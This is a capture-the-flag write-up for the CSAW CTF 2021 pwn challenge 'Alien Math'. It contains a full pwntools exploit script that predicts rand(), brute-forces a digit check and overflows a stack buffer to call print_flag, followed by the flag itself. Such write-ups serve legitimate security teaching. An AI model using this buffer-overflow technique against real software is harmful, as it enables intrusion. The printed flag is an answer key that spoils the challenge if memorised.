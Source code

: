 ```yaml
---
name: Alien Math (2021)
event: CSAW CTF 2021
category: Pwn
description: Writeup for Alien Math (pwn) - CSAW CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Alien Math

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/1Dw21NoxXjE/0.jpg)](https://youtu.be/1Dw21NoxXjE?t=3701s "CSAW 2021: Alien Math")

## Challenge Description

> Brush off your Flirbgarple textbooks!

## Solution

{% code overflow="wrap" %}
```py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
break second_question_function
continue
'''.format(**locals())

# Binary filename
exe = './alien_math'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Start program
io = start()

# First question - rand() is 0x6b8b4567 everytime..
io.sendlineafter('What is the square root of zopnol?', '1804289383')

# Second question - needs to equal 7759406485255323229225
target = "7759406485255323229225"
user_input = "7"
for i in range(len(target) - 1):
    for j in range(48, 58):
        current_char = ord(target[i])
        next_char = ord(target[i]) + i
        v1 = j - 48
        r = (12 * (next_char - 48) - 4 + 48 * (current_char - 48) - (next_char - 48)) % 10
        if target[i + 1] == chr((v1 + r) % 10 + 48):
            user_input += chr(j)
            break

io.sendlineafter('How many tewgrunbs are in a qorbnorbf?', str(user_input))

# Calculated in GDB with cyclic pattern
offset = 24

# Build the payload
payload = flat({
    offset: [
        elf.symbols.print_flag
    ]
})

# Third question - BoF (offset = 24)
io.sendlineafter('How long does it take for a toblob of energy to be transferred between two quantum entangled salwzoblrs?', payload)

# Got Shell?
io.interactive()
```
{% endcode %}

Flag: `flag{w3fL15n1Rx!y0u_r34lLy_4R3@_fL1rBg@rpL3_m4573R!}`
